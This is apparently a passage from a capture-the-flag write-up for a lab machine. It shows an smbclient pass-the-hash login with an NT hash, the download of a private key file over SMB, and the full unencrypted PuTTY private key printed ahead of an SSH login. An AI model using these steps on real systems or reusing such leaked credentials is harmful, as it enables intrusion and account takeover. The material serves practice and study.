 

    root@kali# smbclient \\\\10.10.10.107\\alice -U alice1978%0B186E661BBDBDCF6047784DE8B9FD8B --pw-nt-hash
    Try "help" to get a list of possible commands.
    smb: \> dir
      .                                   D        0  Mon Jul 30 22:54:20 2018
      ..                                  D        0  Tue Jul 31 23:16:50 2018
      my_private_key.ppk                  A     1460  Mon Jul 16 21:38:51 2018

                    433262 blocks of size 1024. 411540 blocks available
    smb: \> get my_private_key.ppk
    getting file \my_private_key.ppk of size 1460 as my_private_key.ppk (17.2 KiloBytes/sec) (average 17.2 KiloBytes/sec)
    smb: \> exit



## Shell As alice Via SSH

### Convert Key

The key I collected from SMB was a .ppk format. It has both the private
and public parts in one file:



    root@kali# cat my_private_key.ppk 
    PuTTY-User-Key-File-2: ssh-rsa
    Encryption: none
    Comment: rsa-key-20180716
    Public-Lines: 6
    AAAAB3NzaC1yc2EAAAABJQAAAQEApV4X7z0KBv3TwDxpvcNsdQn4qmbXYPDtxcGz
    1am2V3wNRkKR+gRb3FIPp+J4rCOS/S5skFPrGJLLFLeExz7Afvg6m2dOrSn02qux
    BoLMq0VSFK5A0Ep5Hm8WZxy5wteK3RDx0HKO/aCvsaYPJa2zvxdtp1JGPbN5zBAj
    h7U8op4/lIskHqr7DHtYeFpjZOM9duqlVxV7XchzW9XZe/7xTRrbthCvNcSC/Sxa
    iA2jBW6n3dMsqpB8kq+b7RVnVXGbBK5p4n44JD2yJZgeDk+1JClS7ZUlbI5+6KWx
    ivAMf2AqY5e1adjpOfo6TwmB0Cyx0rIYMvsog3HnqyHcVR/Ufw==
    Private-Lines: 14
    AAABAH0knH2xprkuycHoh18sGrlvVGVG6C2vZ9PsiBdP/5wmhpYI3Svnn3ZL8CwF
    VGaXdidhZunC9xmD1/QAgCgTz/Fh5yl+nGdeBWc10hLD2SeqFJoHU6SLYpOSViSE
    cOZ5mYSy4IIRgPdJKwL6NPnrO+qORSSs9uKVqEdmKLm5lat9dRJVtFlG2tZ7tsma
    hRM//9du5MKWWemJlW9PmRGY6shATM3Ow8LojNgnpoHNigB6b/kdDozx6RIf8b1q
    Gs+gaU1W5FVehiV6dO2OjHUoUtBME01owBLvwjdV/1Sea/kcZa72TYIMoN1MUEFC
    3hlBVcWbiy+O27JzmDzhYen0Jq0AAACBANTBwU1DttMKKphHAN23+tvIAh3rlNG6
    m+xeStOxEusrbNL89aEU03FWXIocoQlPiQBr3s8OkgMk1QVYABlH30Y2ZsPL/hp6
    l4UVEuHUqnTfEOowVTcVNlwpNM8YLhgn+JIeGpJZqus5JK/pBhK0JclenIpH5M2v
    4L9aKFwiMZxfAAAAgQDG+o9xrh+rZuQg8BZ6ZcGGdszZITn797a4YU+NzxjP4jR+
    qSVCTRky9uSP0i9H7B9KVnuu9AfzKDBgSH/zxFnJqBTTykM1imjt+y1wVa/3aLPh
    hKxePlIrP3YaMKd38ss2ebeqWy+XJYwgWOsSw8wAQT7fIxmT8OYfJRjRGTS74QAA
    AIEAiOHSABguzA8sMxaHMvWu16F0RKXLOy+S3ZbMrQZr+nDyzHYPaLDRtNE2iI5c
    QLr38t6CRO6zEZ+08Zh5rbqLJ1n8i/q0Pv+nYoYlocxw3qodwUlUYcr1/sE+Wuvl
    xTwgKNIb9U6L6OdSr5FGkFBCFldtZ/WSHtbHxBabb0zpdts=
    Private-MAC: 208b4e256cd56d59f70e3594f4e2c3ca91a757c9
